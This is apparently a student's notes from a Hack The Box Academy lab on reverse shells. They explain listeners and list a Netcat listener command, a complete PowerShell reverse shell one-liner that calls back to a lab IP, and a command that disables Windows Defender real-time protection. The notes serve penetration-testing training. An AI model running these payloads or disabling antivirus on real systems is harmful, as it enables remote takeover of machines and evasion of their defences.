 With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%201/Medium/Shells%20%2526%20Payloads/Images/reverseshell.webp)

We will often use this kind of shell as we come across vulnerable systems because it is likely that an admin will overlook outbound connections, giving us a better chance of going undetected.

As seen in the image above, we are starting a listener for a reverse shell on our attack box and using some method (example: `Unrestricted File Upload`, `Command Injection`, etc..) to force the target to initiate a connection with our target box, effectively meaning our attack box becomes the server and the target becomes the client.

There are helpful tools that infosec veterans have put together to assist us. [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is one fantastic resource that contains a list of different commands, code, and even automated reverse shell generators we can use when practicing or on an actual engagement.

We can start a Netcat listener on our attack box as the target spawns.

```shell
NolanCarougeHTB@htb[/htb]$ sudo nc -lvnp 443
```

This time around with our listener, we are binding it to a [common port](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html) (`443`), this port usually is for `HTTPS` connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level.

On the Windows target, open a command prompt and copy & paste this command :

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.33',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

`What happened when we hit enter in command prompt?`

The `Windows Defender antivirus` (`AV`) software stopped the execution of the code. This is working exactly as intended, and from a `defensive` perspective, this is a `win`

For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin) :

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

## Introduction to Payloads : 

Keep in mind that when we deliver and execute payloads, just like any other program, we give the target computer instructions on what it needs to do. The terms "malware" and "malicious code" romanticize the process and make it more mysterious than it is.
